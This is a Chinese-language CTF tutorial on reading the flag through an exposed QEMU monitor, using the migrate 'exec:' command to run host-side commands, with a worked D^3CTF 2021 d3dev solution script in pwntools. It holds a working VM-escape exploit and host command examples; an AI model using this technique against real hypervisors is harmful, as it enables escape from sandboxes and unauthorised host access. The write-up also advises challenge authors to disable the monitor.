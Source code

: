 # 利用 QEMU Monitor 读取 flag

QEMU monitor 是 QEMU 内置的一个交互式控制台窗口，主要用于监控和管理虚拟机的状态。由于 Linux kernel pwn 题目通常使用 QEMU 创建虚拟机环境，因此若是未禁止选手对 QEMU monitor 的访问，则选手可以直接获得整个虚拟机的访问权限。同时，由于 QEMU monitor 支持在 host 侧执行命令，因此也可以直接读取题目环境中的 flag，这同时意味着我们还能可以利用 QEMU monitor 完成虚拟化逃逸。

> 对于出题人而言，应当时刻保证 `QEMU` 的参数包含一行 `-monitor none` 或是 `-monitor /dev/null` 以确保选手无法访问 QEMU monitor。

通常情况下，进入 QEMU monitor 的方法如下：

- 首先同时按下 `CTRL + A`
- 接下来按 `C`

使用 pwntools 脚本时，可以通过发送 `"\x01c"` 完成，例如：

```python
p = remote("localhost", 11451)
p.send(b"\x01c")
```

在 QEMU monitor 当中有一条比较好用的指令叫做 `migrate`，其支持我们执行特定的 URI：

```
(qemu) help migrate
migrate [-d] [-r] uri -- migrate to URI (using -d to not wait for completion)
                         -r to resume a paused postcopy migration
```

其中，URI 可以是 `'exec:<command>'` 或 `tcp:<ip:port>` ，前者支持我们直接在宿主机上执行命令，例如下面的命令在宿主机上执行了 `ls` 命令：

```
migrate "exec: sh -c ls"
```

有的时候可能会由于一些特殊原因遇到没有输出的情况，这个时候可以尝试将 stdout 重定向至 stderr，例如：

```
(qemu) migrate "exec: whoami"
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) migrate "exec: whoami 1>&2"
arttnba3
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) 
```

## 例题： D^3CTF 2021 - d3dev

### 分析

题目将用于构建远程 docker 环境的文件给了咱们，不难看出题目的核心服务为 `launch.sh` ：

```shell
$ ls
Dockerfile  README.md  bin  ctf.xinetd  flag  lib  pc-bios  start.sh
$ cat start.sh 
#!/bin/sh
# Add your startup script

# DO NOT DELETE
/etc/init.d/xinetd start;
sleep infinity;
$ cat ctf.xinetd | grep -i server
    server      = /usr/sbin/chroot
    server_args = --userspec=1000:1000 /home/ctf ./launch.sh
```

查看 `launch.sh` ，不难看出题目启动了一个 QEMU 虚拟机环境并加载了一个自定义设备 `d3dev` ，因此应当是一道 QEMU 逃逸的题目：

```shell
$ find . -name launch.sh
./bin/launch.sh
$ ls bin
launch.sh  qemu-system-x86_64  rootfs.img  vmlinuz
$ cat bin/launch.sh 
#!/bin/sh
./qemu-system-x86_64 \
-L pc-bios/ \
-m 128M \
-kernel vmlinuz \
-initrd rootfs.img \
-smp 1 \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 nokaslr quiet" \
-device d3dev \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic \
```

### 利用

由于出题人在启动脚本里并没有禁用 QEMU monitor，因此我们可以直接通过 QEMU monitor 提供的 migrate 指令直接在 host 侧执行命令，完成虚拟机逃逸：

```python
from pwn import *

def recvuntil_filter(p, target):
    target_len = len(target)
    s = b''
    ignore_next = False
    while True:
        ch = p.recv(1)
        if ignore_next:
            ignore_next = False
            continue

        if ch == b'\x1b':
            ch = p.recv(2)
            if ch == b'[D':
                ignore_next = True
            elif ch == b'[K':
                s = b''
            else:
                print("Unhandled escape sequences : {}".format(ch))
            continue

        if ch[0] < 0x20 or ch[0] > 0x7E:
            continue

        s += ch
        if s[-target_len:] == target:
            return s

def main():
    p = remote("localhost", 5555)
    p.recvuntil(b" $")
    p.send(b"\x01c")
    p.recvuntil(b"monitor - type 'help' for more information")
    p.sendline(b'migrate "exec: cat /flag"')

    flag = recvuntil_filter(p, b'flag{')[-5:]
    flag += recvuntil_filter(p, b'}')
    print(flag.decode())

if __name__ == '__main__':
    main()
```

